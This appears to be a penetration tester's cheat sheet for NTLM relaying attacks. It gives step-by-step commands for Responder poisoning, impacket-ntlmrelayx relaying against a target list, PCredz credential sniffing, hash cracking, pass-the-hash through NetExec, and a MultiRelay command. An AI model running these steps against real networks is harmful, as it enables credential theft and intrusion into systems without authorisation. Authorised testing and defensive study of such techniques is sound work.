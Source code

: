 # NTLM Relaying Tactics - Responder, NTLMRelayx, and Pcredz:
By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.

 ### 1. Turn off SMB Server in Responder.conf. We will be utilizing the SMB Server in impacket-ntlmrelayx.

    $ sudo nano /usr/share/responder/Responder.conf

![Screenshot 2024-10-18 143302](https://github.com/user-attachments/assets/5930d61a-4072-473d-b4f9-9fda7720cf64)

 ### 2. Initiate Responder
    
    $ sudo responder -I eth0 -v 

 ### 3. Initiate ntlmrelayx in a separate terminal:

    $ sudo impacket-ntlmrelayx -tf /Desktop/targets -smb2support -r -d -w
 (will provide more victims, but is more intrusive so run in short periods of time, 30 minutes max)

 ### 4. Initiate PCredz in a separate terminal:

    $ cd /opt/tools/PCredz
    $ sudo pipenv run python Pcredz -i eth0

### 5. Once a hash is captured attempt to crack.

### 6. Attempt Pass-the-Hash through NetExec.
   Only NTLM hashes can be utilized for PtH attacks. This excludes NetNTLMv1 and NetNTLMv2.
   
### 7. If hash is cracked use password in NetExec.

**Additional References:**
   - https://attack.mitre.org/techniques/T1557/001/
   - https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
   - https://www.giac.org/paper/gcih/34273/pass-the-hash-windows-10/174913#:~:text=The%20NTLMv2%20authentication%20process%20applies,knowledge%20of%20the%20corresponding%20password.

**Additional Tool:**
    python MultiRelay.py -t <Target_Scope> -u ALL
